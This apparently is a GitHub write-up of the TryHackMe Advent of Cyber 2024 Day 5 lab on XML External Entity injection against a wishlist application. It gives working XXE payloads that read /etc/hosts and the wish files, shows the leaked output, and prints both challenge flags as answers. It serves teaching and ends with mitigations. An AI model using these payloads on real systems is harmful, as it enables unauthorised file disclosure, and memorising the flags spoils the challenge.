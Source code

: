 # 🎄 TryHackMe Advent of Cyber 2024 – Day 5: XXE Exploitation Challenge

## Challenge Overview 🎅

Day 5 takes us into the world of **XML External Entity (XXE) vulnerabilities**, highlighting how improper XML parsing can expose sensitive information or allow attackers to perform malicious actions. In this challenge, we exploit a vulnerability in Wareville's Christmas wishlist application, uncover hidden data, and investigate signs of possible sabotage in the development process.

## Objectives 🎯

1. Understand how XML and entities work to uncover the root cause of XXE vulnerabilities.
2. Exploit the XXE vulnerability to access restricted files.
3. Investigate and confirm suspicious modifications in the application's development history.

## Key Concepts 💡

### What is XML?
XML (eXtensible Markup Language) is a standardized way for systems to exchange structured data. Tags like `<name>` and `<address>` help organize the data into a human- and machine-readable format.

### Entities in XML
Entities act like placeholders in XML and can be used to:
- Repeat or reference internal data.
- Load external data or files using URLs.

### What is XXE?
XXE (XML External Entity) vulnerabilities occur when an XML parser fails to restrict the resolution of external entities, enabling attackers to:
- Access sensitive files (e.g., `/etc/passwd`).
- Send malicious requests to backend systems.
- Perform denial-of-service (DoS) or even remote code execution.

## Step 1: Identifying the XXE Vulnerability

### Setting Up Burp Suite
1. **Install Burp Suite:**
   - Launch Burp Suite. You can download it [here](https://portswigger.net/burp).
2. **Navigate to the Website:**
   - Open Burp's pre-configured browser and visit `http://MACHINE_IP/product.php`.
3. **Add a Product to the Wishlist:**
   - Click "Add to Wishlist" for a product, and intercept the request using Burp Suite's **Proxy** tab.

### Crafting the Payload
1. **Intercept the Request:**
   - The request sends XML like this:
     ```
     <wishlist>
       <user_id>1</user_id>
       <item>
         <product_id>1</product_id>
       </item>
     </wishlist>
     ```
2. **Modify the Payload:**
   - Replace the `<product_id>` tag with a reference to an external entity:
     ```
     <!--?xml version="1.0"?-->
     <!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
     <wishlist>
       <user_id>1</user_id>
       <item>
         <product_id>&payload;</product_id>
       </item>
     </wishlist>
     ```
3. **Send the Updated Request:**
   - Use Burp Suite’s **Repeater** tab to send the modified request and observe the response. The response confirms access to `/etc/hosts`, validating the XXE vulnerability.
   - 
## Step 2: Exploiting the XXE Vulnerability

### Accessing Sensitive Files
1. **Target a Specific File:**
   - Update the payload to read from `/var/www/html/wishes/`:
     ```
     <!--?xml version="1.0"?-->
     <!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
     <wishlist>
       <user_id>1</user_id>
       <item>
         <product_id>&payload;</product_id>
       </item>
     </wishlist>
     ```
2. **Iterate Through Wishes:**
   - Change the file name incrementally (e.g., `wish_2.txt`, `wish_3.txt`) to discover additional wishes.

### Discovering the Flag
- On `wish_15.txt`, the response reveals:
  ```
  The product ID: Wish #15
  Name: Mayor Malware
  Address: Test
  ---------------------------------------
  Product: Waredy Cane
  Quantity: 1
  ---------------------------------------
  PS: The flag is THM{Brut3f0rc1n6_mY_w4y}
  ```

**Answer: `THM{Brut3f0rc1n6_mY_w4y}`**

## Step 3: Investigating the Sabotage

### Accessing the CHANGELOG
1. **Navigate to the Changelog:**
   - Visit `http://MACHINE_IP/CHANGELOG` directly.
2. **Review the Entries:**
   - The changelog reveals that a recent push introduced the vulnerable XML parser code. This evidence points to potential sabotage by Mayor Malware.

**Answer: `THM{m4y0r_m4lw4r3_b4ckd00rs}`**

## Lessons Learned 🌟

### Takeaways on XXE Exploitation
1. **Understanding XML and Entities:**
   - XML is powerful for structured data exchange but can pose security risks without proper validation.
2. **How XXE Exploitation Works:**
   - Injecting malicious entities into XML allows attackers to access restricted files or interact with backend systems.

### Mitigation Strategies
1. **Disable External Entity Loading:**
   - In PHP, use `libxml_disable_entity_loader(true)` to prevent external entities from being resolved.
2. **Validate and Sanitize Input:**
   - Ensure only expected XML structures are processed, blocking references to sensitive paths like `/etc/hosts`.
3. **Conduct Regular Security Audits:**
   - Review applications for vulnerabilities before deploying them to production.

## Tools Used 🛠️

1. **[Burp Suite](https://portswigger.net/burp):** Intercepted and modified HTTP requests to identify and exploit the XXE vulnerability.
2. **XML:** Crafted payloads to exploit the vulnerability.
3. **Browser:** Accessed the application and verified exploitation outcomes.

## Final Thoughts 🎁

Day 5’s challenge demonstrated the critical importance of secure coding and validation practices. By leveraging improperly sanitized XML parsing, we accessed sensitive information and uncovered sabotage evidence. This challenge reinforced:
- The dangers of XXE vulnerabilities in real-world applications.
- The need for thorough security testing during development.
- The importance of developer awareness regarding secure coding practices.

By addressing these lessons, developers and organizations can prevent vulnerabilities like XXE from becoming a real-world threat.

## Questions and Answers

1. **What is the flag discovered after navigating through the wishes?**  
   **Answer:** `THM{Brut3f0rc1n6_mY_w4y}`

2. **What is the flag seen on the possible proof of sabotage?**  
   **Answer:** `THM{m4y0r_m4lw4r3_b4ckd00rs}`

## Table of Contents 📚

- [Day 1: OPSEC Challenge](day1.md)
- [Day 2: Log Analysis](day2.md)
- [Day 3: Log Analysis](day3.md)
- [Day 4: Atomic Red Team](day4.md)
- [Day 6: Coming Soon!](day6.md)
- [More Days to Come!](README.md)
```
